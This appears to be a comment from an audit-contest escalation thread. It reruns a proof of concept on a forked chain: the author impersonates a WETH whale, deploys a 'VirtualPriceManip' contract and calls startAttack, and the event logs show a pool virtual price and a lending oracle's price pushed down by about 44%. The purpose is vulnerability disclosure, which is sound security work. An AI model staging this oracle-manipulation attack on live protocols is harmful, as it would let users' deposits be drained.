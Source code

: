 You've created a valid escalation for 50 USDC!

To remove the escalation from consideration: Delete your comment.
To change the amount you've staked on this escalation: Edit your comment **(do not create a new comment)**.

You may delete or edit your escalation comment anytime before the 48-hour escalation window closes. After that, the escalation becomes final.

**GalloDaSballo**

Escalate for 50 USDC.
In solidarity to my colleague, I re-ran my POC with whale being set to [aWETH](https://arbiscan.io/address/0xe50fA9b3c56FfB159cB0FCA61F5c9D750e8128c8) and you can see that the price impact is closer to 50%

```python
>>> weth = Contract.from_explorer("0x82aF49447D8a07e3bd95BD0d56f35241523fBab1")
whale = accounts.at("0xe50fA9b3c56FfB159cB0FCA61F5c9D750e8128c8", force=True)
Fetching source of 0x82aF49447D8a07e3bd95BD0d56f35241523fBab1 from api.arbiscan.io...
Fetching source of 0x8b194bEae1d3e0788A1a35173978001ACDFba668 from api.arbiscan.io...
>>> weth.transfer(a[0], weth.balanceOf(whale), {"from": whale})
weth.withdraw(weth.balanceOf(a[0]), {"from": a[0]})
c = VirtualPriceManip.deploy({"from": a[0]})
c.startAttack({"from": a[0], "value": a[0].balance() * 99 / 100})
Transaction sent: 0x986059eea98f64537fc18f576080d9df04a3b1d14566f3f11106d1f443c2a62e
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 1
  TransparentUpgradeableProxy.transfer confirmed   Block: 45350953   Gas used: 39080 (0.20%)

Transaction sent: 0x3aa0e109cf7f7983b6c4123a8befacda921f93969c7f1185e9175d2ad9bfc44c
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 0
  TransparentUpgradeableProxy.withdraw confirmed   Block: 45350954   Gas used: 30937 (0.15%)

Transaction sent: 0xe4df2473de3a73a7a56b17cdf5acec0cd523f713fcfbbe80a40261f6519a74a3
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 1
  VirtualPriceManip.constructor confirmed   Block: 45350955   Gas used: 647058 (3.24%)
  VirtualPriceManip deployed at: 0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6

Transaction sent: 0xa3f759c1c16dffa1dfdc90faceb384d37aa462de39d01dc73ec55ac909f2d27d
  Gas price: 0.0 gwei   Gas limit: 20000000   Nonce: 2
  VirtualPriceManip.startAttack confirmed   Block: 45350956   Gas used: 346696 (1.73%)

>>> history[-1].events
{'Debug': [OrderedDict([('name', 'Virtual Price 1'), ('value', 1006386728989215731)]), OrderedDict([('name', 'fakeSentimentPrice 1'), ('value', 1006386728989215731)]), OrderedDict([('name', 'Virtual Price 3'), ('value', 1006460432180341199)]), OrderedDict([('name', 'fakeSentimentPrice 3'), ('value', 1006460432180341199)]), OrderedDict([('name', 'Virtual Price 5'), ('value', 566156151085517748)]), OrderedDict([('name', 'fakeSentimentPrice 5'), ('value', 566156151085517748)]), OrderedDict([('name', 'Virtual Price 6'), ('value', 1006460432180341199)]), OrderedDict([('name', 'fakeSentimentPrice 6'), ('value', 1006460432180341199)]), OrderedDict([('name', 'Msg.value'), ('value', 9242544511373299000000)]), OrderedDict([('name', 'This Balance'), ('value', 6887807551730873474275)]), OrderedDict([('name', 'Delta'), ('value', 2354736959642425525725)]), OrderedDict([('name', 'WstEthBalance'), ('value', 2124028976089901491510)])], 'Transfer': [OrderedDict([('_from', '0x0000000000000000000000000000000000000000'), ('_to', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('_value', 9136530630863310092133)]), OrderedDict([('from', '0x6eB2dc694eB516B16Dc9FBc678C60052BbdD7d80'), ('to', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('value', 2124028976089901491510)]), OrderedDict([('_from', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('_to', '0x0000000000000000000000000000000000000000'), ('_value', 9136530630863310092133)])], 'AddLiquidity': [OrderedDict([('provider', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('token_amounts', (9242544511373299000000, 0)), ('fees', (1143210375408757286, 1031913016221942347)), ('invariant', 15635314996650963717127), ('token_supply', 15533814948437161604759)])], 'RemoveLiquidity': [OrderedDict([('provider', '0x602C71e4DAC47a042Ee7f46E0aee17F94A3bA0B6'), ('token_amounts', (6887807551730873474275, 2124028976089901491510)), ('fees', (0, 0)), ('token_supply', 6397284317573851512626)])]}
```
